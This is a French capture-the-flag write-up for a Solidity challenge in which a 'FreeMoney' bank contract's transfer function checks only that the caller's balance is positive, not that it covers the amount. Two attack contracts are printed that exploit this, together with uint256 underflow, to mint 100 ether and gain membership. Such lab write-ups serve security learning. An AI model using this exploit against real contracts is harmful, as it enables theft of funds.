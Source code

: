 ```solidity
}
```

### Description

Le contrat simule une banque qui gère des comptes pour ses clients.

On a accès à 3 fonctions intéressantes:
- `getMoney`: on entre un entier non signé plus petit que 10000, et ce montant est ajouté à notre compte. On ne peut appeler cette fonction qu'une fois par an (et par contrat).
- `transfer`: si l'appelant a un compte en banque dans le positif, il transfère `numTokens` à `receiver`.
- `enterHallebarde`: il faut avoir 100 ether (ou être le boss, mais cela a peu de chance d'arriver) pour devenir membre de Hallebarde.

Une fois membre, on peut se connecter avec netcat à l'adresse donnée et avoir le flag.

### Solution

On remarque que si `transfer` vérifie que notre compte a de l'argent, mais ne vérifie pas que l'argument `numToken` donné est bien inférieur à la somme sur le compte.

Rien ne m'empêche donc de donner 100 ether à un autre compte.

Ainsi, je crée deux contrats: `Attack` va s'inscrire à la banque, `Attack2` également, puis va donner 100 ether à `Attack`. Enfin, `Attack` va pouvoir devenir membre de Hallebarde.

A noter que le compte de `Attack2` va être en négatif, mais comme le type est `uint256`, sa somme va en fait rester positive, et donc il pourrait également devenir membre de Hallebarde.

Pour effectuer cela, j'ajoute à la fin du fichier sol le code suivant:

```solidity
contract Attack {
    FreeMoney public target;
    constructor(address _address) public {
        target = FreeMoney(_address);
        target.getMoney(5000);
    }

    function connect() public {
        target.enterHallebarde();
    }
}

contract Attack2 {
    FreeMoney public target;
    constructor(address _address, address _other) public {
        target = FreeMoney(_address);
        target.getMoney(5000);
        target.transfer(_other, 100 ether);
    }
}
```
